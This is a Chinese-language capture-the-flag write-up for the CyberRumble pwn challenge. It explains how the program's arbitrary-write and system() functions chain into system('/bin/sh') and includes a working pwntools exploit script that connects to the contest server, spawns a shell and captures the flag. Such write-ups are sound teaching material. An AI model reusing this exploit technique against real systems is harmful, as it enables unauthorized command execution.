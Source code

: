 ### CyberRumble

这道题每个功能都有一些可以利用的点，"tombstone_piledriver " 读文件，可以查看 /proc/self/map 获取程序基址（没什么用）"old_school " 忘内存写任意内容（关键），"last_ride "  执行system() (关键)，"chokeslam " 往输入缓冲区写东西，在后面使用其他功能的时候，只要没有新的数据覆盖，这些数据仍然存在的。根据程序里面的 TODO 也能知道一些。

关键在于 `memcpy(&dest, a1, 0x14uLL);` 要是 dest 就方便很多。

根据题意，想到的 chain 就是 "old_school "->"old_school "->"last_ride  “，第一次写入 “/bin/sh" 得到第一个地址，第二次写入第一次的地址，第三次把第二次的传给"last_ride  “，从而构造 system(”/bin/sh")

实际操作还是很多问题的，注意退出"old_school "的时候不要选 “n"，其他随便字符都可以，"old_school "有\x00截断，第一次返回的地址有前导'\x00'，可以对地址进行 +x 的操作，其次 "last_ride  “ 中会多拷贝地址后的 "00" 导致执行 system 执行时不能访问对应的内存。尝试把第一次产生的地址传给它，成功 getshell（？） 其实最迷的是如果不进行第二次 mmap，直接传第一次地址，会使 rdi = ”/bin/sh" ,而不是 rdi->”/bin/sh" 按照对于memcpy 的理解也应该是这样，而进行二次mmap 后反倒是前面的操作可行了。

```python
from pwn import *
context.log_level='debug'

#sh = process("./CyberRumble")
sh = remote("rumble.sunshinectf.org", 4300)
sh.recvline()
sh.recvline()

sh.sendline("old_school "+ "sss"+"/bin/sh")

shellcode_addr = int(sh.recvline()[-16:-2],16)+3

sh.recvuntil("Jump to shellcode?\n")
#sh.recvline()
sh.sendline("c")

sh.recvuntil("Move?\n> ")
sh.sendline("old_school "+p64(shellcode_addr)+"\0\0")
#sh.recvline()
shellcode_addr2 = int(sh.recvline()[-16:-2],16)

sh.recvuntil("Jump to shellcode?\n")
#sh.recvline()
sh.sendline("c")

#gdb.attach(sh)
sh.recvuntil("Move?\n> ")

sh.sendline("last_ride "+p64(shellcode_addr))
sh.interactive()
```

flag: `sun{the chair and thumbtacks are ready, but the roof is a little loose}`